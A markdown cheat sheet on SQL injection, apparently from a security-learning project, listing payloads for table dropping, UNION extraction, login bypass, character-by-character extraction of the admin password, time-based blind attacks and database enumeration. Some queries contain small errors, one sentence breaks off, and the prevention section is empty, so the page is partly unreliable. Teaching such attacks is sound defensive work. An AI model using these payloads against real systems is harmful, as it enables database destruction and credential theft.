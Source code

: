 <!--
 * This file is part of RS Cheat Sheets.
 *
 * RS Cheat Sheets is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.
 *
 * RS Cheat Sheets is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with RS Cheat Sheets. If not, see <https://www.gnu.org/licenses/>.
 */
-->

[Home](../README.md)

# SQL Injection(SQLi)
SQL injection allows an attacker to make unwanted requested queries or modifications to the database.

Let's assume the server makes this query with user input. `SELECT * FROM users WHERE = 'userInput';`

If the user were to input `' OR 1=1; DROP TABLE users; --` the resulting query would be `SELECT * FROM users WHERE = '' OR 1=1; DROP TABLE users; -- ';`.

This attack allowed the user to drop the table when it should be allowed.
- `'` ended the user input's string
- `OR 1=1;` allowed the previous query to return true
- `--` commented the following `'` that was there from the server's query
	- Comments could sometime be `#`

<!-- TOC -->

- [Common SQLi attacks](#common-sqli-attacks)
	- [Logins](#logins)
- [How do you know the website is using SQL?](#how-do-you-know-the-website-is-using-sql)
- [How do you know which SQL database is being used?](#how-do-you-know-which-sql-database-is-being-used)
- [How do you know what all the tables are in the db?](#how-do-you-know-what-all-the-tables-are-in-the-db)
- [How do you know what all the columns in a table are?](#how-do-you-know-what-all-the-columns-in-a-table-are)
- [Types of SQLi](#types-of-sqli)
	- [Boolean based SQLi](#boolean-based-sqli)
	- [Blind SQLi](#blind-sqli)
- [How to prevent SQLis](#how-to-prevent-sqlis)

<!-- /TOC -->

## [Common SQLi attacks](#sql-injectionsqli)
- `' OR 1=1; YOUR INJECTION HERE; --`
- `' UNION SELECT column FROM table; --`
	- When getting back a query you sometimes need an exact amount of columns. Use `, 1` to get this.
		- Ex: `' UNION SELECT column, 1, 1 FROM table; --` 3 columns

- `0'XOR(if(now()=sysdate(),sleep(20),0))XOR'Z`
	- Possibly bypasses filters

### [Logins](#sql-injectionsqli)
Bypassing logins
- `SELECT * FROM users WHERE password = '' AND username = ''` or `SELECT * FROM users WHERE username = '' AND password = ''`
	- Whichever is first, username input or password input: `' OR 1=1; --`
	- Would login to the first user

- When username is first
`admin'--`
`administrator'--`

## [How do you know the website is using SQL?](#sql-injectionsqli)
- Look for SQL keywords in source code which may tell you what they are using.
- Input single quote `'` and look for errors
- Input some SQL and see how that changes the responses. Ex: `ASCII(97)`
	- How does this work?

## [How do you know which SQL database is being used?](#sql-injectionsqli)
- MySQL: `SELECT VERSION();`
- Postgres: `SELECT version();`
- SQL Server: `SELECT @@VERSION;`
- Oracle: `SELECT * FROM v$version`
- SQLite: `SELECT sqlite_version();`
	- https://www.techonthenet.com/sqlite/sys_tables/index.php
- IBM Db2: `SELECT * FROM sysibm.sysversions;`

## [How do you know what all the tables are in the db?](#sql-injectionsqli)
- MySQL: `SHOW TABLES;`
- Postgres, SQL Server: `SELECT * FROM information_schema.tables`
- Oracle: `SELECT table_name FROM user_tables;`
- SQLite: `SELECT name FROM sqlite_master;`
- IBM Db2: `SELECT tabname FROM syscat.tables'`

## [How do you know what all the columns in a table are?](#sql-injectionsqli)
- MySQL and Oracle: `DESCRIBE table_name;` or `SHOW COLUMNS FROM table_name;`
- Postgres, SQL Server: `SELECT COLUMN_NAME from information_schema.columns where table_name = 'table_name'`
- SQLite doesn't have this feature.
- IBM Db2: `SELECT colname FROM syscat.columns WHERE tabname = 'table_name';`

## [Types of SQLi](#sql-injectionsqli)

### [Boolean based SQLi](#sql-injectionsqli)
Boolean based SQLi happen when you only get a boolean value back from your SQLi and you have to extract information through this boolean value.
- Determine if it is a boolean based SQLi
	- The output from `' OR 1=1; --` is different from `' OR 1=2; --`

- `AND (SELECT 'a' FROM users WHEN username='admin')='a'; -- `
	- Returns 'a' when there is a admin username. Which returns true.
	- Used to find if there is that username in users
- `AND (SELECT substring(password,1,1) FROM users WHERE username='admin')='a'; --`
	- used to extract the password one character at a time from the admin user
	- Next time 'a' will be changed to 'b' etc
	- substring(column, index, length)
	- Used to guess and check one character at a time for the password
	- Useful when you are getting back boolean information, but need to reconstruct a string

- Look at the response differences between 

### [Blind SQLi](#sql-injectionsqli)
Blind SQLi are where the attacker cannot see any responses, including errors, from the db.

- Time based attacks
	- Payloads designed to trigger time delays. Ex: `'; WAITFOR DELAY ('0:0:20');--` or `SELECT SLEEP(20);--`
- Out-of-bound network interactions - the attacker injects SQL which triggers the database to communicate with the attacker's server.

## [How to prevent SQLis](#sql-injectionsqli)
- 

`SELECT * FROM products WHERE category = 'Gitfs' OR 1=1 --'`
	- Selects products which has the category of gifts or where 1=1(which is true). This results in returning all the products regardless of the category.